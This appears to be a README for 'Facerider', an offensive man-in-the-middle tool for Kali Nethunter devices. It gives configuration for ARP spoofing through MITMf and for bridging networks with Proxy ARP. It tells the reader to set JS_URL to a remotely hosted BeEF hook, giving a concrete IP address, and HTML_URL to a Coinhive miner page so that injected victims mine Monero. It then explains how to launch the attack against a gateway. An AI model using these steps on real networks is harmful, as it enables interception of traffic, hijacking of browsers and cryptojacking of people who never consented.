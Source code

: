Thank for you downloading and installing Facerider into your Nethunter device. To get started...

# Configure the mitmf.cfg file

If you are using a cell phone or tablet with Kali Nethunter installed, you should change the following lines to the following values

INTERFACE = wlan0 // instead of eth0

AUTO_ACQUIRE_GATEWAY = 1

# Additional injectable parameters

And optionally set JS_URL to a link with malicious Javascript payloads being hosted remotely, such as a Beef Framework Hook.

Example: JS_URL = http://18.232.199.30:3000/hook.js

You can also set HTML_URL to a page that hosts a coinhive crypto-miner script, thereby enslaving all of your injected victims with Monero miners until they close the tab on their browser

Example: HTML_URL = http://18.232.199.30/injectcoinhive.html

# Run Facerider

Open a Kali terminal and navigate to your Facerider directory, and then <code>python Facerider.py</code>. You have only one more step, selecting the gateway that is auto-detected to commence the attack. Do not close this window.

Alternatively, you can add it as a convenient custom command in the Custom Commands tab of your Nethunter app.

# Offensive ARP Proxies

Advanced users might consider switching PROXY_ARP_MODE = 1 to take advantage of bridging multiple NICs with Proxy ARP, allowing two entirely separate networks to talk to each other. It's also useful for immediately attacking subnets not just within your immediate locate subnet.

Proxy ARP is unique in being able to merge the connected networks of a WIRELESS CARD to the connected networks of a ETHERNET CARD, opening up new attack possibilities and theories.

However, combined with ARP spoofing, the matters complicate significantly and you can end up crashing local routers through irresponsible and reckless abuse of Proxy ARP. Always limit your target(s) to a small range or preferably, a single host for ARP spoofing when using Offensive Proxy ARP.
